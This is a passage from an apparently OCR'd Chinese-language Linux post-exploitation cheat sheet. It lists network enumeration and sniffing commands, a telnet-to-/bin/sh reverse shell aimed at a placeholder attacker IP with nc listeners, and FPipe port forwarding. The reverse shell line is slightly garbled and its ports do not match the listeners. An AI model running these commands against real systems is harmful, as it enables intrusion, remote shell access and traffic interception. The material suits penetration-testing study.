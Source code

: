 ```bash
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

其他哪些用户和主机正在与系统通信？

在这种情况下，用户正在运行某些只能从该主机获得的服务。我们无法从外部连接到服务。它可能是开发服务器，数据库或其他任何东西。这些服务可能以root用户身份运行， 或者其中可能存在漏洞。

```bash
# Linux 
netstat -anlp 
netstat -ano
```

```bash
lsof -i
lsof -i :80 grep 80 /etc/services
netstat -antup 
netstat -antpx
netstat -tulpn
chkconfig --list chkconfig --list | grep 3:on
last
w
```

IP和/或MAC地址

```bash
arp -e
route
/sbin/route -nee
```

数据包嗅探是否可能？可以看到什么？

```bash
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：tcpdump tcp dst \[ip\] \[端口\]和tcp dst \[ip\] \[端口\]

我们有shell吗？

```bash
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 # On the targets sys
```

是否可以进行端口转发？重定向流量并与之交互

注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]

```bash
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```
